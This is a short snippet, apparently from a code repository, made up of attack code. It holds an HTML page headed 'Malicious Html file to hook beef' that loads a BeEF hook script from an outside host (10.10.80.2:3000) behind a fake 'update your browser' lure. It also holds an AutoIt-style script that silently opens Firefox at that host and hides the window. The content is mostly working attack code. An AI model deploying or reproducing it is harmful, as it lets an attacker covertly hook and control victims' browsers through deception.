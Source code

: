 ## Malicious Html file to hook beef
```
<html>
  <head>
    <script src="http://10.10.80.2:3000/hook.js"></script>
  <head>
  <body>
    <h1> Please update your browser to access the website </h1>
  </body>
</html>
```
## autoscript to open html file
```
$path = "C:\Program Files (x86)\Firefox Developer Edition\"
$path1 = "C:\Windows\SysWOW64\WindowsPowerShell\v1.0\"
ShellExecute($path & "firefox.exe", "http://10.10.80.2", "","",@SW_HIDE)
WinWait("[TITLE:Firefox Developer Edition]")
WinSetState ("[LAST]","", @SW_HIDE)
```
